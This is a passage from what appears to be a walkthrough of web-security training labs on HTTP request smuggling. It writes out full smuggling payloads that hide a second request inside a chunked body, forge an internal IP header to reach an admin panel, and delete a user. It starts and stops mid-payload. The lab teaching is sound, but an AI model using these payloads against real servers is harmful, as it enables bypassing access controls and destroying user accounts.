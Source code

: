     87  
    GET /admin/delete?username=carlos HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 15  
      
    x=1  
    0  
    `

### Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting

1.  Browse to `/admin` and observe that the admin panel can only be loaded from `127.0.0.1`.
2.  Use the site's search function and observe that it reflects the value of the `search` parameter.
3.  Use Burp Repeater to issue the following request twice.  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 124  
    Transfer-Encoding: chunked  
      
    0  
      
    POST / HTTP/1.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 200  
    Connection: close  
      
    search=test`
4.  The second response should contain "Search results for" followed by the start of a rewritten HTTP request.
5.  Make a note of the name of the `X-*-IP` header in the rewritten request, and use it to access the admin panel:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 143  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    X-abcdef-Ip: 127.0.0.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
    Connection: close  
      
    x=1`
6.  Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 166  
    Transfer-Encoding: chunked  
      